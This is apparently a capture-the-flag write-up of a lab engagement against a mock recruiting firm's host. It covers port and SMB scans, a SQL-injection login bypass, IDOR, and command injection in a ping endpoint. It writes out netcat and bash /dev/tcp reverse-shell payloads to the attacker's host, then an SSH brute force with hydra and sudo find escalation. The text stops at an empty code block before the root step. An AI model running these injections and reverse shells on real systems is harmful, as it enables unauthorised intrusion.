## Scenario

> You are up for promotion at Hadron Security. Your senior lead, Mara, has handed you a solo engagement against RecruitCorp, a small recruiting firm with a public-facing portal. Compromise the host, capture the flags, and demonstrate that you are ready for the Penetration Tester title.

## Initial Reconnaissance

First stop was just the site itself in the browser.


Nothing useful in the page content and nothing in the page source — just marketing copy, a list of open roles, and a `careers@recruitcorp.thm` contact address. The contact address looked like it might be worth following up on, but it didn't lead anywhere further; the real leads came from scanning the host.

A quick look with Wappalyzer confirmed the stack before digging further:



Apache 2.4.58, PHP, Ubuntu — nothing exotic.

### Port Scan

Ran a full TCP port sweep first, to not miss anything sitting outside the common range.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.114.148.251 -p- -T4         
[sudo] password for —REDACTED—: 
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-20 21:54 +0200
Nmap scan report for 10.114.148.251
Host is up (0.035s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 16.92 seconds
```

Four ports open: SSH, HTTP, and a Samba pair (139/445). Followed up with a version and default-script scan against just those four, for more detail without re-scanning the whole range.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.114.148.251 -p22,80,139,445 -sV -sC 
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-20 21:56 +0200
Nmap scan report for 10.114.148.251
Host is up (0.039s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 d3:9a:f4:d4:62:d4:7e:1e:6f:38:91:a9:9c:ca:a6:71 (ECDSA)
|_  256 c7:5a:04:60:62:20:d7:d7:f6:a1:3b:2c:be:22:e5:6d (ED25519)
80/tcp  open  http        Apache httpd 2.4.58 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/admin/
|_http-title: RecruitCorp - Careers Portal
|_http-server-header: Apache/2.4.58 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: RECRUITCORP, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-11-20T19:56:50
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.62 seconds
```

The `http-robots.txt` result already flagged one disallowed path, `/admin/`, and the Samba ports were worth a look before coming back to the web app.

### SMB Enumeration

Tried an anonymous share listing straight away.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ smbclient -L //10.114.148.251/ -N 

	Sharename       Type      Comment
	---------       ----      -------
	public          Disk      
	IPC$            IPC       IPC Service (RecruitCorp File Services)
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
Protocol negotiation to server 10.114.148.251 (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
```

The `public` share was reachable anonymously, so connected to it directly.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ smbclient //10.114.148.251/public -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun May 10 01:40:25 2026
  ..                                  D        0  Sun May 10 01:40:25 2026
  README.txt                          N       92  Sun May 10 01:40:25 2026

		40581564 blocks of size 1024. 37377384 blocks available
smb: \> get README.txt
getting file \README.txt of size 92 as README.txt (0.6 KiloBytes/sec) (average 0.6 KiloBytes/sec)
smb: \> !cat README.txt 
This share is reserved for future internal file distribution.
Nothing to see here yet.
```

A dead end — the README only says the share is reserved for future use, nothing on it yet. Back to the web app.

## Web Enumeration

With `/admin/` already flagged by robots.txt, had a look at it directly in the browser:





Started a directory brute-force in the background too, mostly to see if anything else was sitting around unlinked. 

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u 'http://10.114.148.251/FUZZ' -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -ic -c --recursion 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.3.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.114.148.251/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

admin                   [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 34ms]
[INFO] Adding a new job to the queue: http://10.114.148.251/admin/FUZZ
```

It confirmed `/admin/` and nothing beyond it that mattered — the rest of the work came from the admin portal itself.

## Admin Panel — SQL Injection Login Bypass

Tried the form with throwaway credentials first, watching the request in the network inspector:







Plain form POST, `username` and `password` fields, nothing unusual in the headers — worth trying a classic SQL injection on the username field before anything heavier. 



And that simple injection got straight past the check, landing on the admin dashboard logged in as `admin`:



## IDOR — User Lookup

The dashboard's "View own profile" link led here:

```
http://10.114.148.251/admin/users/lookup.php?id=1
```

An `id` parameter on the URL is always worth poking at — tried IDOR before assuming it might be some kind of file-path/LFI issue, and IDOR it was: incrementing the `id` just returned other users' records with no authorisation check.





Profiles existed up to ID 9 and nothing past that, but ID 7 was the interesting one:



A service account with its notes field pointing straight at an internal path — worth following up directly.

## Command Injection in `ping.php`

```
http://10.114.148.251/admin/sysmaint-checks/ping.php
```



It very helpfully told me exactly what parameter it wanted. First attempt just tried to inject a command directly in place of a host value:

```
http://10.114.148.251/admin/sysmaint-checks/ping.php?host=cat+ping.php
```



That came back as `ping` itself trying (and failing) to resolve `ping.php` as a hostname, rather than `cat` running as a separate command — so whatever was happening with the input, it was still landing inside a single `ping` invocation rather than breaking out of it. My guess was the `host` value might get checked for something resembling a valid target first, so I gave it a real IP up front and tried stacking a second command after a URL-encoded newline (`%0A`), on the assumption that newlines weren't being filtered:

```
http://10.114.148.251/admin/sysmaint-checks/ping.php?host=127.0.0.1%0Acat+ping.php
```



That confirmed it outright: the `host` parameter goes straight into `shell_exec` with no sanitisation.

## Gaining a Shell

Set up a listener first.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 1234                                
listening on [any] 1234 ...
```

First reverse-shell attempt used the classic `nc -e` one-liner:

```
http://10.114.148.251/admin/sysmaint-checks/ping.php?host=127.0.0.1%0Anc%20—REDACTED—%201234%20-e%20%2Fbin%2Fbash
```

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.025 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.025/0.025/0.025/0.000 ms
nc: invalid option -- 'e'
usage: nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]
	  [-m minttl] [-O length] [-P proxy_username] [-p source_port]
	  [-q seconds] [-s sourceaddr] [-T keyword] [-V rtable] [-W recvlimit]
	  [-w timeout] [-X proxy_protocol] [-x proxy_address[:port]]
	  [destination] [port]
```

`-e` got rejected outright. My first thought was that the plain `-e` flag wasn't surviving the request — maybe the dash itself needed URL-encoding (`%2D`), so I tried a variant with that too, but to no avail. I ultimately checked the target's `nc -h` to see what was actually available:

```
http://10.114.148.251/admin/sysmaint-checks/ping.php?host=127.0.0.1%0Anc+-h
```

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.026 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.026/0.026/0.026/0.000 ms
OpenBSD netcat (Debian patchlevel 1.226-1ubuntu2)
usage: nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]
	  [-m minttl] [-O length] [-P proxy_username] [-p source_port]
	  [-q seconds] [-s sourceaddr] [-T keyword] [-V rtable] [-W recvlimit]
	  [-w timeout] [-X proxy_protocol] [-x proxy_address[:port]]
	  [destination] [port]
	Command Summary:
		-4		Use IPv4
		-6		Use IPv6
		-b		Allow broadcast
		-C		Send CRLF as line-ending
		-D		Enable the debug socket option
		-d		Detach from stdin
		-F		Pass socket fd
		-h		This help text
		-I length	TCP receive buffer length
		-i interval	Delay interval for lines sent, ports scanned
		-k		Keep inbound sockets open for multiple connects
		-l		Listen mode, for inbound connects
		-M ttl		Outgoing TTL / Hop Limit
		-m minttl	Minimum incoming TTL / Hop Limit
		-N		Shutdown the network socket after EOF on stdin
		-n		Suppress name/port resolutions
		-O length	TCP send buffer length
		-P proxyuser	Username for proxy authentication
		-p port		Specify local port for remote connects
		-q secs		quit after EOF on stdin and delay of secs
		-r		Randomize remote ports
		-S		Enable the TCP MD5 signature option
		-s sourceaddr	Local source address
		-T keyword	TOS value
		-t		Answer TELNET negotiation
		-U		Use UNIX domain socket
		-u		UDP mode
		-V rtable	Specify alternate routing table
		-v		Verbose
		-W recvlimit	Terminate after receiving a number of packets
		-w timeout	Timeout for connects and final net reads
		-X proto	Proxy protocol: "4", "5" (SOCKS) or "connect"
		-x addr[:port]	Specify proxy address and port
		-Z		DCCP mode
		-z		Zero-I/O mode [used for scanning]
	Port numbers can be individual or ranges: lo-hi [inclusive]
```

That settled it — this is the OpenBSD build of netcat (confirmed by the banner line), which doesn't ship an `-e` option at all, so no amount of encoding the dash would have helped. Switched to a bash `/dev/tcp` reverse shell instead, after confirming bash was present:

```
http://10.114.148.251/admin/sysmaint-checks/ping.php?host=127.0.0.1%0Awhich+/bin/bash
```

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.027 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.027/0.027/0.027/0.000 ms
/bin/bash
```

Built the payload:

```
bash -c 'bash -i >& /dev/tcp/—REDACTED—/1234 0>&1'
```

Url-encoded it:

```
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F—REDACTED—%2F1234%200%3E%261%27
```

```
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 1234                                
listening on [any] 1234 ...
connect to [—REDACTED—] from (UNKNOWN) [10.114.148.251] 49290
bash: cannot set terminal process group (876): Inappropriate ioctl for device
bash: no job control in this shell
www-data@recruitcorp:/var/www/html/admin/sysmaint-checks$ 
```

Shell landed as `www-data`.

## Shell Stabilisation

```shell
www-data@recruitcorp:/var/www/html/admin/sysmaint-checks$ which python3
which python3
/usr/bin/python3
www-data@recruitcorp:/var/www/html/admin/sysmaint-checks$ python3 -c 'import pty;pty.spawn("/bin/bash")' 
<cks$ python3 -c 'import pty;pty.spawn("/bin/bash")'      
www-data@recruitcorp:/var/www/html/admin/sysmaint-checks$ ^Z
zsh: suspended  nc -lvnp 1234

┌──(—REDACTED—㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 1234

<ww/html/admin/sysmaint-checks$ export TERM=xterm-256color                   
www-data@recruitcorp:/var/www/html/admin/sysmaint-checks$ stty rows 52 cols 236
www-data@recruitcorp:/var/www/html/admin/sysmaint-checks$ 
```

## Privilege Escalation — Finding `jford`

Ran a couple variants of `find`, but ultimately concluded that the user flag is not reachable as `www-data`. We are not "user" yet.  

Checked `/etc/passwd` for a real login account to target:

```shell
www-data@recruitcorp:/var/www/html/admin/users$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
fwupd-refresh:x:113:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
dhcpcd:x:114:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false
polkitd:x:997:997:User for polkitd:/:/usr/sbin/nologin
jford:x:1001:1001::/home/jford:/bin/bash
```

`jford` stood out as the one genuine login account besides `root` and `ubuntu`. Checked for anything owned by or writable to that account, and for a crontab:

```shell
www-data@recruitcorp:/var/www/html/admin/users$ find / -user jford 2>/dev/null
/home/jford
www-data@recruitcorp:/var/www/html/admin/users$ find / -group jford 2>/dev/null
/home/jford
```

Nothing beyond the home directory itself, no crontab, and `sudo -l` as `www-data` asked for a password I didn't have — a dead end from this account.

The site's own front page had mentioned a "Spring 2026 Hiring Drive", which looked like a plausible seed for a password, so built a mutated wordlist from it:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ hashcat --stdout base.txt -r /usr/share/hashcat/rules/OneRuleToRuleThemStill.rule > wordlist.txt
```

Then used it to brute-force SSH:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ hydra -l jford -P wordlist.txt 10.114.148.251 ssh
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-11-20 23:03:10
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 48414 login tries (l:1/p:48414), ~3026 tries per task
[DATA] attacking ssh://10.114.148.251:22/
[22][ssh] host: 10.114.148.251   login: jford   password: —REDACTED—
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-11-20 23:03:49
```

Credentials found: `jford:—REDACTED—` Logged in and found `user.txt` immediately

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ssh jford@10.114.148.251 
(jford@10.114.148.251) Password: 
—SNIP—
jford@recruitcorp:~$ ls
user.txt
jford@recruitcorp:~$ cat user.txt
—REDACTED—
```

### Question — What is the content of user.txt?

**Answer:** `—REDACTED—`

## Privilege Escalation to Root

```shell
jford@recruitcorp:~$ sudo -l
Matching Defaults entries for jford on recruitcorp:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jford may run the following commands on recruitcorp:
    (root) NOPASSWD: /usr/bin/find
```

`find` with NOPASSWD — checked GTFOBins for the known abuse of that:



Used this one-liner and escalated. 

```shell
